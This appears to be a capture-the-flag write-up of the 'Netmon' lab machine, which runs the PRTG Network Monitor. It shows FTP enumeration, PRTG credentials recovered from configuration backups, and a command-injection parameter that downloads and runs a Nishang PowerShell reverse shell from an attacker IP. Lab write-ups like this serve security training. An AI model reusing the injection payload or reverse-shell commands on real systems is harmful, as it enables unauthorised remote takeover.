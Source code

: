 # Netmon


### Machine Info
![](screenshots/netmon.png)


#### Nmap
![](screenshots/nmap.png)


###### FTP (Port 21)

FTP anonymous login is allowed:
![](screenshots/ftp_login.png)

I tried to upload `.php` and `.txt` but not worked.


###### SMB (Port 139,445)

Tried `smbclient` and `smbmap` but it's not allowed with anonymous user. I am getting `NT_STATUS_ACCESS_DENIED`.


###### HTTP (Port 80)

Web Server is running `Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)`.

Access to index page:
![](screenshots/index.png)
Tried to login common credentials and default `[prtgadmin, prtgadmin]` but not worked.


###### Again FTP

Let's find anything related to `PRTG Network Monitor`.

I fount from google about `PRTG Configuration` could include plain text of password:
![](screenshots/prtg_conf.png)

Search for that files:
![](screenshots/ftp_prtg.png)


`PRTG Configuration.dat`:
![](screenshots/prtg_dat.png)
JO3Y7LLK7IBKCMDN3DABSVAQO5MR5IDWF3MJLDOWSA======


`PRTG Configuration.old.bak`:
![](screenshots/prtg_old_bak.png)
User: prtgadmin, PrTg@dmin2018

![](screenshots/prtg_old_bak2.png)
PDWXMOPZT43U2GKGR3YCBILXDMLAUZVBN27KGBOPKXRQ====

`PRTG Configuration.old`:
![](screenshots/prtg_dat.png)


###### HTTP (Port 80)

I got a credential `prtgadmin, PrTg@dmin2018` from configuration file. I tried with this credential but not worked, so I just tried password `PrTg@dmin2019` as new configuration data file was created on 2019 and it worked:

![](screenshots/prtg_login.png)



##### Exploit

Check if there is a exploit for `PRTG Network Monitor 18.1.37.13946`:
![](screenshots/prtg_vuln.png)

This version also could be affected as this version is `18.2.39`.

Based on [reference](https://www.codewatch.org/blog/?p=453) about this vulnerability, I tested this works or not.

###### Method 1 (using notification)

First try ping test:

![](screenshots/prtg_ping_noti.png)


![](screenshots/prtg_ping.png)

Ping test worked which means we could also try reverse shell.


Try [Nishang's](https://github.com/samratashok/nishang) Powershell Reverse Shell:

Add line to the `Invoke-PowerShellTcp.ps1`:
```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.37 -Port 4444
```

Parameter:
```
test; IEX (New-Object Net.Webclient).DownloadString('http://10.10.14.37:8080/Invoke-PowerShellTcp.ps1')
```
![](screenshots/prtg_root.png)


`nc` listener on attacking side:
![](screenshots/root_shell.png)


###### Method 2 (via adding sensor)

Use same parameter I used for `noticiation` method and just add new sensor and start:
![](screenshots/prtg_sensor.png)

